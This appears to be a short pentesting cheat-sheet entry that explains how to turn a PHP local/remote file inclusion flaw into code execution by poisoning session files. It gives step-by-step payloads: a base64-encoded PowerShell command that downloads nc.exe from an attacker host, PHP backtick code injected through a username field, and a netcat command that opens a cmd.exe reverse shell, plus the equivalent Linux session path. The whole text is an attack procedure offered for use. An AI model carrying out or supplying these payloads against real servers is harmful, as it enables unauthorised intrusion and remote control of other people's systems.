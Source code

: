 ### REQUIREMENTS: Confirm that the server is vulnerable to Remote File Inclusion/Local File Inclusion

### LOCATION: /windows/temp/sess_PHPSESSIONID

### STEPS:

#### 1) Create a new user in the app inserting our encoded payload as the username value:

#### echo "wget http://ATTACK_IP/nc.exe -o C:\\Windows\\TEMP\\nc.exe" | iconv -t UTF-16LE | base64

#### 2) The final username value payload becomes: <?=`powershell /enc ENCODED_PAYLOAD`?<

#### 3) Abuse the LFI/RFI vulnerability to make the command execute on the server.

#### 4) Create another user with: echo "C:\Windows\TEMP\nc.exe -e cmd.exe IP_ADDRESS PORT" | iconv -t UTF-16LE | base64"

#### 5) Repeat steps to get your reverse shell.

### Similar approach can be used on a linux machine as well

### LOCATION: /var/lib/php/sessions/sess_PHPSESSIONID
